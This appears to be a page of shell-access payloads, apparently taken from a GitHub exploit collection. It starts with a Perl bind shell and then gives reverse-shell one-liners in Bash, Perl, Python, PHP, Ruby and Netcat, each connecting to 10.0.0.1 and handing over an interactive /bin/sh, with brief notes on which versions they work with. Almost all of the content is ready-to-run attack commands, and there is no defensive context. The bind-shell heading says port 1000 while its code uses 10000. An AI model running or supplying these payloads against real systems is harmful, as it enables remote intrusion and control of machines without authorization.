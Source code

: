 #### Bind Shells

https://github.com/infodox/exploits/blob/master/payloads/linux/perl.py
    
Perl Bind Shell (Port 1000)
```
    perl -e 'use Socket;$p=10000;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));bind(S,sockaddr_in($p, INADDR_ANY));listen(S, SOMAXCONN);for(; $p= accept(C, S); close C) {open(STDIN,">&C");open(STDOUT,">&C");open(STDERR,">&C");exec("/usr/bin/bash -i");};'
```

#### Reverse Shells

Bash
Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):
```
    bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

PERL

Here’s a shorter, feature-free version of the perl-reverse-shell:
```
    perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Python
This was tested under Linux / Python 2.7:
``` 
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…
``` 
    php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Ruby
```
    ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

Netcat
Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.
```
    nc -e /bin/sh 10.0.0.1 1234
```

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:
```
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
